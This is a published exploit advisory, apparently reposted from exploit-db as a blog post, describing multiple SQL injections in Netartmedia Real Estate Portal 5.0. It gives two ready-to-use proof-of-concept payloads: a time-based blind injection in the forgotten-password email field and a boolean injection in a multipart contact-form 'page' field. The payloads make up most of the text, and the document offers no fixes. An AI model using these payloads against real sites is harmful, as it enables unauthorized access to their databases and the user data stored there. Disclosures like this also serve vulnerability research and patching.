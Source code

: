 ```yaml
---
layout:     post
title:      "Netartmedia Real Estate Portal 5.0 - Multiple SQL Injection"
date:       2019-03-19 12:37
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Netartmedia Real Estate Portal 5.0 - Multiple SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/realestate/
# Demo Site: https://www.phpscriptdemos.com/realestate/
# Version: 5.0
# Tested on: Kali Linux
# CVE: N/A
# Description: The real estate portal software is made to be multi-language, the main site can show multiple languages and let the site
visitors choose their preferred language.

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/index.php
Parameter: user_email (POST)
Payload:
ProceedSend=1&mod=forgotten_password&user_email=0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z'
OR SLEEP(5)#

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/index.php
Parameter: MULTIPART page ((custom) POST
Payload:
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="SubmitContact"

1
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="code"

94102
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="email"

sample@email.tst
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="message"

20
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="name"

${alpharand}
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="page"

en_Contact-2228' OR 3801=3801-- eISZ
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="phone"

555-666-0606
------WebKitFormBoundaryYUBPFrrBhV4S4pf0
Content-Disposition: form-data; name="subject"

1
------WebKitFormBoundaryYUBPFrrBhV4S4pf0--

